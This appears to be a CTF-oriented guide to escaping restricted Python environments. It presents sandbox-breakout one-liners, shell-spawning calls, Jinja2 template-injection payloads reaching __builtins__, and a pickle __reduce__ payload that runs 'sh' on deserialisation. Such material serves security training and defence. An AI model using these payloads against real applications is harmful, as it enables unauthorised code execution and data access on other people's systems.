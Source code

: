 # The Definitive Guide to Pyjails

## Introduction

A PyJail, or Python Jail, refers to a restricted Python environment designed to limit the capabilities of code executed within it. It is commonly encountered in Capture The Flag (CTF) challenges and security exercises, where the goal is to "escape" the jail and achieve a higher level of access or control, often by accessing restricted functions.

---
## Traditional Pyjails

### Unicode bypass 😈😈😈
Probably the most straightforward way of escaping a pyjail if a SKID wrote it.  

Python normalises italics for some reason, but the characters don't match your normal ASCII table, so standard blacklists can be easily bypassed.  

Note that symbols still remain the same.  

https://lingojam.com/ItalicTextGenerator

### Helpful builtins

`eval()`, `exec()`, `compile()`: execute arbitrary code

### Spawning shells / running system commands

Shell commands: `sh`, `python3`

Helpful functions:
- `os.system()`: probably the most well-known method     
- `subprocess.call()`, `subprocess.run()`: allows you to spawn shells
- `os.popen().read()`, `subprocess.Popen()`, `subprocess.check_output()`: runs commands and returns the output
- `pty.spawn()`: lesser known but still helpful!

Debug mode: `breakpoint()`, `__import__('sys').breakpointhook()`, `pdb.set_trace()`
- starts a python debugger

Python Interactive mode
- `code.interact()`: launches a Python shell
- `os.environ["PYTHONINSPECT"] = "1"`: launches a Python shell when your script finishes execution

### Reading files
`open('flag.txt').read()` (H2 computing doesn't recommend this)

But what if `print()` isn't available...?
- `help()`, `exit()`, `quit()`: essentially `print()`

But what if `read()` isn't accessible? Redirect to `stderr`!
1. unpack your file object into a string: `*open('flag.txt')`
2. then run a faulty conversion!: `int()`, `float()`, `complex()`

### No builtins???
Some pyjails may (attempt to) remove `__builtins__` entirely as shown below.  

```python
eval(code, {"__builtins__": None})
```

Luckily, we can still bypass this! 

```python
().__class__.__base__.__subclasses__()
```

This essentially accesses all subclasses that inherit from the `object` class (ie. EVERY class defined in Python!)

From here, we can access previously restricted functions through some helpful classes.

Here, we access the `warnings` base class from the `catch_warnings` subclass, from which we can then call the `__import__` function.  
```python
[c for c in ().__class__.__base__.__subclasses__() if "catch" in c.__name__][0]()._module.__builtins__["__import__"]
```

We can even directly read variables by overwriting the `sys` module's exception handler to output all global variables.  

```python
(s:=[c for c in ().__class__.__base__.__subclasses__() if 'wrap_close' in c.__name__][0].__init__.__globals__['sys'], s.__setattr__('excepthook', lambda *a: s.stdout.write(a[2].tb_frame.f_globals.__str__())), a)
```

### NO PARENTHESES??? 💔💔💔
Probably the most troublesome to bypass...  
Luckily, you can chain decorators to a dummy class to invoke functions without parentheses!

```python
@exec
@input
class C:
    ...
```

### NUKED BUILTINS 😱😱😱
Setting a `__builtins__` function to `None` completely removes the global reference to it (eg. `__builtins__.eval = None`)  

Honestly nothing you can do about it brotato chip ✌🥀, just find another entry point.  

### More stuff
Dynamically accessing attributes
- `getattr()`: for objects
- `__getitem__()`: for dictionaries

Octal encoding
- bypass blacklists within your strings!
- eg: `'\146\154\141\147.txt'` -> `'flag.txt'`

Assigning variables
- the walrus operator treats an assignment as an expression
- only works for variables (no attribute assignment)
- eg: `a:=1`

---
## SSTI

In some Web challenges, you might see a vulnerability like this.  

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "POST":
        return render_template_string(f"Hello {request.form['name']}!")
    else:
        return '''
            <form method="POST">
                Name: <input type="text" name="name">
                <input type="submit" value="Greet">
            </form>
        '''
```

The vulnerability lies in the way the webpage is rendered when the POST request is received. The `f-string` can be abused to retrieve `__builtins__` through Jinja2 introspection.  

```python
{{ self.__init__.__globals__.__builtins__ }}
```

Jinja2 also has a special variable `request`, which refers to the current request being processed and can also be abused to access `__builtins__`

```python
{{ request.application.__globals__.__builtins__ }}
```

An obfuscated way of achieving the above would be using Jinja2's `|` operator, which allows us to pipe the results of filters.  

This is particularly useful if characters like `.` are blacklisted.  

```python
{{ self | attr('__init__') | attr('__globals__') | attr('__getitem__')('__builtins__') }}
```

---
## Pickle
Pickle has a pretty well-known RCE exploit that allows you to run arbitrary commands on deserialisation.  

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('sh',))

payload = pickle.dumps(Exploit())
```

### Pickle RCE blacklist??? 😱😱😱
Once a blacklist is introduced, things won't be as straightforward.  
Luckily, we can use [Pickora](https://github.com/splitline/Pickora) to convert our obfuscated Python code to Pickle bytecode.  

Read [this article](https://github.com/maurosoria/dirsearch/issues/1073) for more info.  

---

## Additional Resources
[very cool cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet)
